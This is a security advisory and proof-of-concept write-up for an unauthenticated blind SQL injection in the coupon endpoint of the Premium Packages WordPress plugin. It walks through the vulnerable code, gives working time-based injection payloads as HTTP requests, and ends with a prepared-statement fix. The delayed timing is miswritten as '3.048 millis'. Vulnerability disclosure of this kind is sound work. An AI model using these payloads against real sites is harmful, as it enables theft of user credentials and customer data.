




# CVE-2026-61948 - Unauthenticated SQL Injection in Mini Cart Coupon REST Endpoint

## Overview

- Advisory/CVE: https://www.cve.org/CVERecord?id=CVE-2026-61948
- CVE-2026-61948
- Affected plugin: Premium Packages - Sell Digital Products Securely
- Affected version: `<= 6.2.0`



## Summary

The vulnerability is in the Mini Cart REST API of the `wpdm-premium-packages` plugin.

Starting from version `6.2.0`, the plugin added REST endpoints for the Mini Cart to update the cart in real time. Among them, the coupon application endpoint is publicly exposed:

```text
POST /wp-json/wpdmpp/v1/cart/coupon
```

This endpoint does not require an account, cookie, nonce, or valid cart item. The JSON parameter `code` is declared with the `sanitize_callback` `sanitize_text_field`, then passed into `MiniCartAPI::applyCoupon()`, then into `CouponCodes::validate_coupon()`, and finally into `CouponCodes::find()`.

In `CouponCodes::find()`, the coupon code value is concatenated directly into the SQL query:

```php
$row = $wpdb->get_row( "select * from {$wpdb->prefix}ahm_coupons where code='{$coupon_code}'" );
```

`sanitize_text_field()` is not SQL escaping and does not make string concatenation safe for SQL queries. Therefore, an unauthenticated attacker can send a payload containing a single quote in the `code` field to inject SQL.

In the lab, the same endpoint always returns the logical error `400 Bad Request` with the message `Invalid or expired coupon code.`, but the true-condition payload is delayed for about 3 seconds because of `SLEEP(3)`, while the baseline and false-condition requests return almost immediately. This proves blind time-based SQL injection.

## How I Found It

I started from the changelog of version `6.2.0` because this version added the Mini Cart Widget and Mini Cart REST API endpoint. Cart/coupon features usually need to be exposed to the frontend for customers, so this was an attack surface worth checking.

In `includes/libs/MiniCartAPI.php`, the `/cart/coupon` route is registered as follows:

```php
register_rest_route(self::NAMESPACE, '/cart/coupon', [
    'methods' => \WP_REST_Server::CREATABLE,
    'callback' => [self::class, 'applyCoupon'],
    'permission_callback' => '__return_true',
    'args' => [
        'code' => [
            'required' => true,
            'type' => 'string',
            'sanitize_callback' => 'sanitize_text_field',
        ],
    ],
]);
```

The important point is:

```php
'permission_callback' => '__return_true'
```

This makes the endpoint a public REST endpoint. This is not automatically a vulnerability, because applying a coupon on the frontend may need to be public. The issue is how the `code` parameter is handled.

The callback receives `code` and passes it directly into the coupon logic:

```php
public static function applyCoupon(\WP_REST_Request $request) {
    $code = $request->get_param('code');
    $discount = CouponCodes::validate_coupon($code);
```


In `includes/libs/CouponCodes.php`, `validate_coupon()` calls `find()`:

```php
static function validate_coupon( $code, $product = 0, $items = null ) {
    $coupon = self::find( $code );
```

The SQL sink is in `find()`:

```php
static function find( $coupon_code ) {
    global $wpdb;
    $row = $wpdb->get_row( "select * from {$wpdb->prefix}ahm_coupons where code='{$coupon_code}'" );

    return $row;
}
```

At this point, there are enough conditions to test SQL injection:

1. The route is public and does not require authentication.
2. User input `code` reaches the SQL query.
3. The query concatenates the string directly inside single quotes.
4. `$wpdb->prepare()` is not used.
5. `sanitize_text_field()` does not escape single quotes for the SQL context.

I used a `UNION SELECT IF(...,SLEEP(3),0)` payload to confirm the issue through timing. The false condition returned quickly, while the true condition delayed by exactly about `3` seconds.

## Root Cause

The root cause is that the plugin handles data from a public REST endpoint using text sanitization, but then inserts that data into SQL through string concatenation.

### 1. Coupon Endpoint Is Public

The apply coupon route:

```php
register_rest_route(self::NAMESPACE, '/cart/coupon', [
    'methods' => \WP_REST_Server::CREATABLE,
    'callback' => [self::class, 'applyCoupon'],
    'permission_callback' => '__return_true',
]);
```

With `permission_callback` set to `__return_true`, any user, including an unauthenticated user, can call the endpoint:

```text
/wp-json/wpdmpp/v1/cart/coupon
```

### 2. The `code` Parameter Only Goes Through `sanitize_text_field`

Parameter declaration:

```php
'code' => [
    'required' => true,
    'type' => 'string',
    'sanitize_callback' => 'sanitize_text_field',
],
```

`sanitize_text_field()` only cleans text for some basic display/storage contexts. It is not SQL escaping, it does not replace prepared statements, and it does not protect manually concatenated SQL queries.

### 3. Direct String-Concatenated Query

Sink:

```php
$row = $wpdb->get_row( "select * from {$wpdb->prefix}ahm_coupons where code='{$coupon_code}'" );
```

Because `$coupon_code` is inside single quotes, a payload can close the current string and append SQL:

```text
x' UNION SELECT IF(1=1,SLEEP(3),0),'x','x','fixed',1,0,0,0,'',0,0,0,0-- -
```

### 4. Blind Timing Still Works Even Though The Response Logic Is The Same

The application still returns:

```json
{"success":false,"message":"Invalid or expired coupon code."}
```

for the baseline, false condition, and true condition. However, the database still executes the `SLEEP(3)` expression when the condition is true, creating a clear timing difference.

## Exploit Flow

```text
Unauthenticated attacker
        |
        v
POST /wp-json/wpdmpp/v1/cart/coupon
        |
        v
JSON body: {"code":"<SQL payload>"}
        |
        v
WP REST parser + sanitize_text_field
        |
        v
MiniCartAPI::applyCoupon()
        |
        v
CouponCodes::validate_coupon($code)
        |
        v
CouponCodes::find($coupon_code)
        |
        v
$wpdb->get_row("... where code='{$coupon_code}'")
        |
        v
Blind SQL injection through timing
```

- Entry point: `POST /wp-json/wpdmpp/v1/cart/coupon`
- Condition: Premium Packages plugin active; no valid coupon, cart item, or account required.
- Vulnerable parameter: JSON `code`
- Callback: `WPDMPP\Libs\MiniCartAPI::applyCoupon`
- Sink: `CouponCodes::find()`
- Final result: Blind SQL injection into the WordPress database.

## PoC

Lab environment:

```text
Target URL:      http://192.168.1.14:8094
WordPress:       6.9.4
PHP:             8.3.30
MySQL:           8.0.45
Download Manager: 3.3.54
Premium Packages: 6.2.0
Authentication:  Unauthenticated, no WordPress cookies sent
```

#### Baseline Request

```http
POST /wp-json/wpdmpp/v1/cart/coupon HTTP/1.1
Host: 192.168.1.14:8094
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/json
Content-Length: 29
Connection: close

{"code":"baseline-no-coupon"}
```

Response:

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=UTF-8

{"success":false,"message":"Invalid or expired coupon code."}
```



Observed timing:

```text
47 millis
```

The baseline returns quickly, as expected for a non-existent coupon.

#### False-Condition Payload

```http
POST /wp-json/wpdmpp/v1/cart/coupon HTTP/1.1
Host: 192.168.1.14:8094
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/json
Connection: close
Content-Length: 84

{"code":"x' UNION SELECT IF(1=2,SLEEP(3),0),'x','x','fixed',1,0,0,0,'',0,0,0,0-- -"}
```

Response:

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=UTF-8

{"success":false,"message":"Invalid or expired coupon code."}
```



Observed timing:

```text
45 millis
```

The condition `1=2` is false, so `SLEEP(3)` does not run. The response still returns quickly.

#### True-Condition Payload

```http
POST /wp-json/wpdmpp/v1/cart/coupon HTTP/1.1
Host: 192.168.1.14:8094
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/json
Connection: close
Content-Length: 84

{"code":"x' UNION SELECT IF(1=1,SLEEP(3),0),'x','x','fixed',1,0,0,0,'',0,0,0,0-- -"}
```

Response:

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=UTF-8

{"success":false,"message":"Invalid or expired coupon code."}
```



But the timing is delayed:

```text
3.048 millis
```

Comparison:

```text
Baseline:        47 millis
False condition: 45 millis
True condition:  3.048 millis
```

The true condition is delayed by roughly `SLEEP(3)`, confirming that the database executed the attacker-controlled SQL portion.

## Impact

An unauthenticated attacker can exploit blind time-based SQL injection to infer data from the WordPress database.

Practical impact includes:

1. Extracting sensitive data bit by bit or character by character using timing payloads.
2. Reading WordPress user information, emails, password hashes, and account metadata.
3. Reading plugin configuration, orders, coupons, customer data, or order metadata that the WordPress database user can access.
4. Reducing availability by sending many `SLEEP()` payloads that keep database and PHP workers busy for a long time.

Because the endpoint does not require authentication or a nonce, the attack surface is the public Internet if the affected plugin is enabled on the site.

## Limitations

- The PoC is blind time-based SQLi, so dumping data requires many requests and depends on timing stability.
- The sample payload uses `SLEEP(3)`, which can be noisy if the server or network is slow.
- The issue does not directly produce RCE in this PoC.
- The exact read/write capability depends on the privileges of the WordPress database user.
- The local report directly confirmed version `6.2.0`; newer versions need to be checked separately to determine the exact patch status.

## Mitigation

Administrators should update Premium Packages - Sell Digital Products Securely to a fixed version.

At the code level, the vulnerable query in `CouponCodes::find()` must be replaced with a prepared statement. `sanitize_text_field()` is not SQL escaping and must not be used as the only protection before concatenating user input into SQL.

Recommended fix:

```php
$row = $wpdb->get_row(
    $wpdb->prepare(
        "select * from {$wpdb->prefix}ahm_coupons where code = %s",
        $coupon_code
    )
);
```

The endpoint should also validate coupon code format with an allowlist and rate-limit abnormal coupon requests containing SQL metacharacters or timing functions such as `SLEEP()`.

## References

- Premium Packages - Sell Digital Products Securely: https://wordpress.org/plugins/wpdm-premium-packages/
- Patchstack advisory: https://patchstack.com/database/wordpress/plugin/wpdm-premium-packages/
- WordPress plugin source tag 6.2.0: https://plugins.svn.wordpress.org/wpdm-premium-packages/tags/6.2.0/
- WordPress plugin source tag 7.0.5: https://plugins.svn.wordpress.org/wpdm-premium-packages/tags/7.0.5/
